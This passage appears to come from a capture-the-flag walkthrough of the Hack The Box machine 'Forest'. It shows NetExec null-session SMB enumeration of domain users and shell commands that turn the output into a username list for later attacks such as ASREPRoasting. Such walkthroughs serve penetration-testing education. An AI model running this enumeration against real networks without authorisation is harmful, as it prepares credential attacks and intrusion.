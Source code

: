 We get a user list back containing many junk accounts, thus, we have to convert it into a proper username list ready to be used for potential attacks.&#x20;

{% code overflow="wrap" fullWidth="false" %}
```bash
# redirect the output to a file
$ nxc smb forest -u '' -p '' --users > nxc_users.lst
# display the file's content
$ head -n5 nxc_users.lst
SMB         10.10.10.161    445    FOREST           [*] Windows Server 2016 Standard 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         10.10.10.161    445    FOREST           [+] htb.local\:
SMB         10.10.10.161    445    FOREST           [*] Trying to dump local users with SAMRPC protocol
SMB         10.10.10.161    445    FOREST           [+] Enumerated domain user(s)
SMB         10.10.10.161    445    FOREST           htb.local\Administrator                  Built-in account for administering the computer/domain
# extract the users
$ cat nxc_users.lst | cut -d'\' -f2 | cut -d' ' -f1 > users.lst
# display the file's content
$ head -n5 users.lst
SMB
:
SMB
SMB
Administrator
# manually clean the junk
$ nano users.lst
# display the final file's content
$ cat users.lst
Administrator
Guest
krbtgt
DefaultAccount
sebastien
lucinda
svc-alfresco
andy
mark
santi
bubbleman
```
{% endcode %}

Since we now have a valid domain user list, we can check if any of those accounts are vulnerable to [ASREPRoasting](broken-reference).

{% hint style="info" %}
NetExec's LDAP protocol [expects](https://www.netexec.wiki/ldap-protocol/authentication) Domain Name Resolution. We have already done that by adding the names in our local DNS file after our port scan.
{% endhint %}
